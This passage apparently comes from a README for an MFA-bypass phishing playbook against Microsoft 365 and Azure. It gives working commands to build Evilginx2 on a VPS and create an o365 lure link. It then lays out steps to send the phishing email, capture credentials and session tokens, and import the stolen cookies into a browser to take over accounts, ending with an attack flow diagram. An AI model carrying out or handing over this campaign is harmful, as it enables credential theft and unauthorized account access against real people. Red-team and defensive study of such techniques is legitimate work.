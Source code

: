 ### Phase 2: Attack Infrastructure

1. **Evilginx2 Setup**
   ```bash
   # SSH into VPS
   ssh root@your-vps-ip
   
   # Install Evilginx2
   git clone https://github.com/kgretzky/evilginx2.git
   cd evilginx2
   make
   
   # Configure phishlet (see evilginx/setup-instructions.md)
   ```

2. **Generate Lure URL**
   ```bash
   # Start Evilginx2
   ./evilginx2
   
   # Generate phishing link
   lures create o365
   lures get-url <lure_id>
   ```

### Phase 3: Phishing Campaign

1. **Craft Phishing Email** (see `phishing-templates/email-templates/`)
2. **Send to Target User**
3. **Monitor Evilginx2 Dashboard**
4. **Capture Credentials & Tokens**

### Phase 4: Session Hijacking

1. **Export Captured Tokens**
2. **Import to Cookie-Editor Browser Extension**
3. **Access Target Account (MFA Bypassed)**

## 📊 Attack Flow Diagram

```
[Reconnaissance] → [Infrastructure Setup] → [Phishing Email] → [User Clicks Link]
                                                                      ↓
[Session Hijacking] ← [Token Captured] ← [User Authenticates with MFA]
        ↓
[Unauthorized Access to Azure Portal]
```
